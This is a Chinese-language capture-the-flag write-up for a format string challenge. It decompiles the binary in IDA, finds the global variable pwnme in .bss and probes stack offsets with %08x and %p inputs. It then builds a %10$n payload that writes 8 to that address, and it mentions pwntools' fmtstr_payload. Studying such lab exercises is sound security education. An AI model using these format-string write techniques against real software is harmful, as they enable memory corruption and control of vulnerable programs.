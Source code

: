 在 printf 中，使用 *<a_number_of_chars>%<number>$n* 就可以将相应的第 *<number>* 个参数的位置写为 % 前输出的字符数量
1、二进制文件放入IDA中，F5出现：
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int buf; // [esp+1Eh] [ebp-7Eh]
  int v5; // [esp+22h] [ebp-7Ah]
  __int16 v6; // [esp+26h] [ebp-76h]
  char s; // [esp+28h] [ebp-74h]
  unsigned int v8; // [esp+8Ch] [ebp-10h]

  v8 = __readgsdword(0x14u);
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  buf = 0;
  v5 = 0;
  v6 = 0;
  memset(&s, 0, 0x64u);
  puts("please tell me your name:");
  read(0, &buf, 0xAu);
  puts("leave your message please:");
  fgets(&s, 100, stdin);
  printf("hello %s", &buf);
  puts("your message is:");
  printf(&s);
  if ( pwnme == 8 )
  {
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
  }
  else
  {
    puts("ank you!");
  }
  return 0;
}

这里我们需要让pwnme变成8，即可得到flag。值得注意的是printf(&s)语句没有参数，因此有明显的格式化字符串漏洞。
pwnme变量并没有出现在程序中，因此这是一个全局变量。
双击pwnme变量，找到其位置位于.bss段，即未手动初始化的数据，其地址为0x804A068:
bss:0804A064 completed_6591  db ?                    ; DATA XREF: __do_global_dtors_aux↑r
.bss:0804A064                                         ; __do_global_dtors_aux+14↑w
.bss:0804A065                 align 4
.bss:0804A068                 public pwnme
.bss:0804A068 pwnme           dd ?                    ; DATA XREF: main+105↑r
.bss:0804A068 _bss            ends
.bss:0804A068
.prgend:0804A06C ; ===========================================================================
.prgend:0804A06C
.prgend:0804A06C ; Segment type: Zero-length
.prgend:0804A06C _prgend         segment byte public '' use32
.prgend:0804A06C _end            label byte
.prgend:0804A06C _prgend         ends
.prgend:0804A06C

bss段（未手动初始化的数据）并不给该段的数据分配空间，只是记录数据所需空间的大小。
data段（已手动初始化的数据）则为数据分配空间，数据保存在目标文件中。

用pwndbg调试看一下运行栈的实际情况
输入参数，name=aaaa，message=AAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
输入./CGFfsb运行程序
分别输入aaaa和AAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
得到结果如下：
please tell me your name:
aaaa
leave your message please:
AAAA %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
hello aaaa
your message is:
AAAA ffca677e f7ed7580 00000001 00000000 00000001 f7f21940 61610001 000a6161 00000000 41414141 38302520 30252078
Thank you!



可以看到第11个参数是我们输入的AAAA（0x41）

同时结合前面pwnme的地址是0x0804A068

所以payload为

\x68\xa0\x04\x08+‘a’*4+%10$n


2、%n，如printf("abcdefg%n");,%n前面写了7个字符，所以向ESP（栈顶指针）所指向的地址处所指向的地址处（ESP指向了栈顶，此处存储着一个地址）写入7。
%10$n，与%n类似，不过是向[ESP + 10]处指向的内存处写入7。

目的是将pwnme改为8，所以要构造长度为8的字符串（要包含pwnme的地址，否则你怎么把%n的结果传过去？），其后跟着%?$n，这个?是字符串中pwnme地址在栈中的位置（相对ESP的偏移）。pwnme是在bss区，地址不会变动，恒为0x804A068


所以只需要找到偏移量即可。message输入：AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p

3、payload的写法：
printf格式化漏洞利用的时候，输入的内容会入栈，但是入栈的位置未知。
通过%n参数，会将%n前面输入字符的个数写入栈顶，也可通过%10$n写入栈顶偏移为10的位置。
在本题目中，需要将bss段的全局变量的值改为8，因此需要输入的个数为8个字符，此外需要将全局变量的地址输入，将8写入地址所在位置，为确定输入后地址的偏移，测试输入AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p。查看输入的地址在哪个位置。


fmtstr_payload是pwntools里面的一个工具，用来简化对格式化字符串漏洞的构造工作。
实际上我们常用的形式是fmtstr_payload(offset,{address1:value1})

